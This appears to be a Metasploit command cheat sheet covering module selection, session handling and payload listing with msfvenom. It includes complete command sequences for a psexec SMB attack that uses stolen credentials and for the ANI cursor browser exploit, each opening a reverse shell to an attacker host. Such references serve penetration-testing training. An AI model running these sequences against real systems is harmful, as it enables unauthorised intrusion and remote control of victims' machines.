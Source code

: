 ### Using Exploits
```
use <exploit>
show targets
show payloads
show options
show advanced
show evasion
```
------------------------------------------------------------------------------------------------------

### Active Exploits

```
exploit -j                    Force an active module to the background.

Use a previously acquired set of credentials to exploit and gain a reverse shell on the target system.
use exploit/windows/smb/psexec
set RHOST 10.0.0.20
set PAYLOAD windows/shell/reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
set SMBUSER victim
set SMBPASS s3cr3t
exploit
```
------------------------------------------------------------------------------------------------------

### Passive Exploits
```
sessions -l                   Show active sessions.
sessions -i 2                 Interact with session 2.

Animated cursor vulnerability. The exploit does not fire until a victim browses to our malicious website.
use exploit/windows/browser/ani_loadimage_chunksize
set URIPATH /
set PAYLOAD windows/shell/reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
exploit

```
------------------------------------------------------------------------------------------------------

### Generating Payloads
```
List all the payloads available, you can do the following (also the same for listing encoders, nops, or all):
./msfvenom -l payloads
```
